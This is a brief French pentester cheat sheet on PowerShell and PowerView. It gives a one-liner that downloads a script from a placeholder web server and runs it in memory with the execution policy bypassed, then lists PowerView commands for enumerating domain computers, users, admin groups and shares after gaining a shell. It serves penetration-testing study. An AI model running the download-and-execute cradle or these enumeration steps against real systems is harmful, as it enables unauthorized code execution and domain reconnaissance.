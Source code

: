 ```yaml
---
layout: default
---
```


### PowerShell & PowerView


#### [Retour](../index.md)

### Télécharger un fichier depuis un server web

````powershell 
IEX(New-Object NET.WebClient).DownloadString("http://ip:port/fichier_à_download") | powershell -exec bypass[22:47]
````

#### PowerView
 - Script utilisé pour énumérer un domaine après avoir déjà obtenu un shell dans le système.
 
#### Bypass les droits qui gène l'exécution de scripts :
````powershell
 powershell -ep bypass
 ````
 
#### Lancement de PowerView :
````powershell
. .\Downloads\PowerView.ps1
````

#### Afficher les informations d'un domaine :
````powershell
Get-NetComputer -fulldata | select operatingsystem
````
#### Afficher les utilisateurs du domaine :
````powershell
Get-NetUser | select cn
````
#### Afficher les groupes du domaine (contenant admin) :
````powershell
Get-NetGroup -GroupName *admin*
````

#### Lister les dossiers partagés :
````powershell
Invoke-ShareFinder
````

[Hacktricks-Documentation](https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters/powerview)